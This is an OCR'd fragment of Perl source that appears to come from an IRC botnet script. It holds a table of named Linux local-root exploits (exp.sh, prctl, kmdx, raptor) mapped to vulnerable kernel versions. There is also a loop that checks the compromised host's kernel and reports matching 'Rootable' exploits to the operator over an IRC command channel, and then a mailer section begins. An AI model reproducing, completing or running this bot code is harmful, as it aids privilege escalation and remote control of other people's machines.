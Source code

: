    }; 

     

   $h{'exp.sh'} = { 

      vuln=>['2.6.9','2.6.10','2.6.16','2.6.13']  

   }; 

     

   $h{'prctl'} = { 

      vuln=>['2.6.']  

   }; 

     

   $h{'kmdx'} = { 

      vuln=>['2.6.','2.4.']  

   }; 

     

   $h{'raptor'} = { 

      vuln=>['2.6.13','2.6.14','2.6.15','2.6.16']  

   }; 

     

   $h{'raptor2'} = { 

      vuln=>['2.6.13','2.6.14','2.6.15','2.6.16']  

   }; 

     

foreach my $key(keys %h){ 

foreach my $kernel ( @{ $h{$key}{'vuln'} } ){  

   if($khost=~/^$kernel/){ 

   chop($kernel) if ($kernel=~/.$/); 

   sendraw($IRC_cur_socket, "PRIVMSG $printl :12[4@3Rootable12] Possible Local Root Exploits: ". $key ." "); 

      } 

   } 

} 

} 

###################### 

#       MAILER       #  
